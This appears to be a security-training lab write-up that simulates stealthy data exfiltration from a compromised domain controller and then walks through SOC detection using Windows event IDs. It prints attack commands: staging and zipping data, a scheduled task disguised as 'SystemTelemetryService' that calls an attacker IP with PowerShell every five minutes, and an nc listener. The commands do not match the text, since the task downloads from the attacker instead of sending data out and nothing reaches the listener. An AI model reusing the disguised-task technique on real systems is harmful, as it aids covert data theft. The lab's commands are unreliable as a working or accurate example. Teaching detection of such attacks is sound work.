




# Phase-4 Incident-01 Lab

## Data Exfiltration via Scheduled Low-and-Slow Transfer

---

## Objective

Simulate attacker behaviour for **stealthy data exfiltration** by staging sensitive data and transferring it periodically using scheduled tasks.

This lab demonstrates how attackers avoid detection by spreading data transfer over time instead of performing large, single exfiltration events.

---

## Lab Topology

* **DC01** — Domain Controller (compromised)
* **ATTACKER** — Kali or Windows attack VM

---

## Step 0 — Precondition (From Phase 3)

The attacker has:

* Domain Administrator access
* Persistent control via service accounts
* Active command-and-control (C2) channel

The attacker now aims to extract data while minimizing detection.

---

## Step 1 — Create Simulated Sensitive Data

```id="ex1"
echo "Confidential: Domain Admin Credentials" > C:\sensitive_data.txt
```


---

### Reasoning

Attackers target high-value data such as:

* Credentials
* Internal documentation
* Configuration files

---

## Step 2 — Stage Data

```id="ex2"
mkdir C:\temp\staging
move C:\sensitive_data.txt C:\temp\staging\
```

---

### Reasoning

Staging allows:

* Centralized data collection
* Controlled preparation for exfiltration
* Reduced noise during collection phase

---

## Step 3 — Compress Data

```id="ex3"
powershell Compress-Archive -Path C:\temp\staging\* -DestinationPath C:\temp\data.zip
```



---

### Reasoning

Compression:

* Reduces transfer size
* Mimics legitimate administrative activity
* Prepares data for chunked exfiltration

---

## Step 4 — Simulate Low-and-Slow Exfiltration

### Create scheduled task:

```id="ex4"
schtasks /create /sc minute /mo 5 /tn "SystemTelemetryService" /tr "powershell -c Invoke-WebRequest http://192.168.56.10/data.zip -OutFile C:\Windows\Temp\sync.tmp"
```



### Reasoning

This simulates:

* Periodic outbound communication
* Small, repeated data transfers
* Legitimate-looking system task

Attackers prefer:

* Low frequency
* Blended behaviour
* Long dwell time

---

## Step 5 — Observe Behaviour

### On attacker:

Creating a server and writing into a zip folder

```id="ex5"
nc -lvnp 5555 > exfiltrated.zip
```

### Reasoning

Key attacker behaviour:

* Regular beacon-like traffic
* Data movement hidden within normal traffic
* Avoidance of large anomalous transfers

---

## Step 6 — SOC Analyst Investigation

### Check Scheduled Task Creation

* **Event ID 4698**

Look for:

* Task: `SystemTelemetryService`
* PowerShell web request

---

### Check Process Execution

* **Event ID 4688**

Look for:

* `powershell.exe` executing web requests

---

### Check Network Indicators

* Repeated outbound HTTP connections
* Same destination IP
* Regular interval (every 5 minutes)

---

### Detection Insight

Sequence indicates:

* Data staging → compression → periodic exfiltration

This is more difficult to detect than bulk transfer.

---

## Step 7 — Investigation Correlation

Reconstruct attacker activity:

* Sensitive data staged and compressed
* Scheduled task created for repeated transfer
* Periodic outbound connections observed

---

### Timeline

* 04/12/2026 14:43:15 → Data staged
* 04/12/2026 14:44:21 → Archive created
* 04/12/2026 14:47:31 → Scheduled task created
* interval of 5 minutes → Repeated outbound transfers

---

### Detection Insight

This reflects:

* **Stealth exfiltration strategy**
* Blending into normal network patterns
* Long-term data extraction

---

## Lab Conclusion

The attacker successfully performed **low-and-slow data exfiltration** by leveraging scheduled tasks and periodic outbound communication.

This approach:

* Reduces detection likelihood
* Avoids large anomalous transfers
* Enables sustained data theft over time

This phase transitions the attack from:

**Control → Stealth Data Exfiltration**

---
